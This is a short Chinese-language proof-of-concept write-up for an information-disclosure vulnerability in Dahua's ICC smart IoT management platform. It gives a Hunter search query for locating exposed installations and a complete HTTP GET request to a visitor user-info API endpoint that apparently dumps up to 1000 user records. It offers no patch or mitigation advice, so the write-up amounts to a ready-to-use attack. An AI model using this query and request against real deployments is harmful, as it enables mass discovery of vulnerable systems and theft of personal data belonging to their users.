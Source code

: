 # 大华智能物联综合管理平台(ICC)info存在信息泄露

# 一、漏洞简介
浙江大华技术股份有限公司，是全球领先的以视频为核心的智慧物联解决方案提供商和运营服务商，大华智能物联综合管理平台(ICC)info存在信息泄露。

# 二、影响版本
+ 大华智能物联综合管理平台(ICC)

# 三、资产测绘
+ hunter`web.body="*客户端会小于800*"`
+ 特征

![1698336070869-d2bec4ae-041a-43a9-981b-f3b9dad9c004.png](./img/8KAhtAW0SvGpY8Rt/1698336070869-d2bec4ae-041a-43a9-981b-f3b9dad9c004-364557.png)

# 四、漏洞复现
```plain
GET /evo-apigw/evo-visitor/1.0.0/card/visitor/user/info?userId=4&pageNum=1&pageSize=1000 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
```

![1716001623502-df87343a-998c-4522-b992-0490c28a22c5.png](./img/8KAhtAW0SvGpY8Rt/1716001623502-df87343a-998c-4522-b992-0490c28a22c5-537803.png)



> 更新: 2024-05-18 12:31:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qiwf6qcxedf9t1ir>